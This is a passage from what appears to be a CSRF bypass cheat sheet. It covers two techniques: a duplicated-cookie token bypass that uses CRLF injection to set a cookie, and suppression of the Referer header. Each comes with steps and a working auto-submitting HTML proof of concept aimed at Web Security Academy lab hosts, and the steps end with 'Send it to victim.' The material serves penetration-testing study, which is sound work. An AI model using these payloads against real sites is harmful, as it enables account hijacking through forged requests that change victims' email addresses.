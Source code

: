```markdown
</body>
</html>


Test Case - 2 : CSRF token is simply duplicated in a cookie, here csrf token value can be anything just need to be same in cookie as wells as param. 

1. Intercept and action and try changing csrf token in both cookie and param
2. Make similar poc as above but this time put same csrf token in crlf payload and request param.
3. Done, Send it to victim.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac071f601e8dc74380609c1d000900b3.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="csrf" value="K5r92qL9pGzpC2joPMkqgBSY1GG3eo6I">
		<input type="text" name="session" value="xdCFpxBe1M0MHvk0DmFuzCRlImMgdxZk">
		<input type="text" name="email" value="natsu@natsu.com">
		<input type="text" name="csrf" value="fake">
		<input type="submit" value="Send">
	</form>
<img src="http://ac071f601e8dc74380609c1d000900b3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()">
</body>
</html>

```

### Bypass Method - 5 : Delete the Referrer Header Completely or Suppress it.

```markdown
Test Case: CSRF where Referer validation depends on header being present.

1. Intercept the request and try changing referer to some other domain.
2. If that didn't work then you will have to suppress the refere header.
3. you can use `<meta name="referrer" content="no-referrer">` or any other technique.
4. Done, Make a normal POC with that technique.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac6d1fe21fb2a0c7809510e7001c006c.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="session" value="S4dyJbRWg1IqEpZlPkhICE5vJQhnv6ve">
		<input type="text" name="email" value="hola@hola.com">
<meta name="referrer" content="no-referrer">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

```
